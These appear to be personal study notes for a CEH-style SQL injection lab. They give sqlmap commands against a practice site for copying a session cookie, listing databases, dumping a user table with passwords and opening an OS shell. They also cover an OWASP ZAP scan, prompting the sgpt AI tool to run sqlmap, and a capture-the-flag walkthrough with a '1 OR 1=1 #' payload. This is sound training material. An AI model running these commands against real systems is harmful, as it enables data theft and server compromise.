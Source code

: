  2025-08-06 21:46

Status:

Tags:

# SQL injection
Structured Query Language (SQL) is a textual language used by a database server. SQL commands used to perform operations on the database include ``INSERT, SELECT, UPDATE, and DELETE``. These commands are used to manipulate data in the database server.

SQL injection is a technique used to take advantage of un-sanitized input vulnerabilities to pass SQL commands through a web application for execution by a backend database
-  SQL injection is a basic attack used to either gain unauthorized access to a database or retrieve information directly from the database 
- It is a flaw in web applications and not a database or web server issue 
- [ ] do theory 
# Lab 1: Perform SQL Injection Attacks
## Task 1: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap

-  open parrot 
1. visit ``http://www.moviescope.com`` 
	- login as ``sam:test``
2. click view profile 
	- inspect the page -> console 
	- type ``document.cookie  `` 
	- copy cookie 
3. run SQLmap
	- ``sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="A[cookie value that you copied in Step#7]" --dbs ``
	- type y for **Do you want to skip test payloads**
4. you need to choose a database and use sqlmap to retrieve the tables in the database
	- ``sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" -D moviescope --tables``
5.  you need to retrieve the table content of the column **User_Login**.
	- ``sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" -D moviescope -T User_Login --dump ``
	- this will give you users list and their passwords 
6. to get shell 
		- `` sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" --os-shell ``  type y
	- to get host info 
		- ``hostname ``
	- to view a list of tasks that are currently running on the target system.
		- ``TASKLIST ``
	- to view what else command you perform 
		- ``help ``

# Lab 2: Detect SQL Injection Vulnerabilities using Various SQL Injection Detection Tools

## Task 1: Detect SQL Injection Vulnerabilities using OWASP ZAP

- open windows server 2019 and search zap 
1. start **OWASP ZA**
2. select **Automated Scan**
3. enter http://www.moviescope.com
4. under alert see SQL injection 
5. and MS SQL 
	- done  


# Lab 3: Perform SQL Injection using AI
1. `` **sgpt --chat sql --shell "Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and enumerate the DBMS databases"** ``
2. ``sgpt --chat sql --shell "Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and enumerate the tables pertaining to moviescope database"``
3. ``sgpt --chat sql --shell "Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and retrieve User_Login table contents from moviescope database"```
## 

.Exploit the web application available at www.cehorg.com and enter the flag's value at the page with page_id=84. Answer: 
1. nmap -sV --script=http-enum [target domain or IP address]
2. Find any input parameter on website and capture the request in burp and then use it to perform sql injection using sqlmap. 3. Now open the burp and check the input parameters and intercept on then type some as “1 OR ANY TEXT” you get some value on burp copy that and create the txt file.(1 OR 1=1 #) 4. sqlmap -r <txt file from burpsuite> --dbs  5. sqlmap -r <txt file from burpsuite> -D <database name> --tables 6. sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --columns 7. sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --dump-all 8. then login and do the url parameter change page_id=1 to page_id=84 

- [ ]  make notes for using AI sql  
      

### References
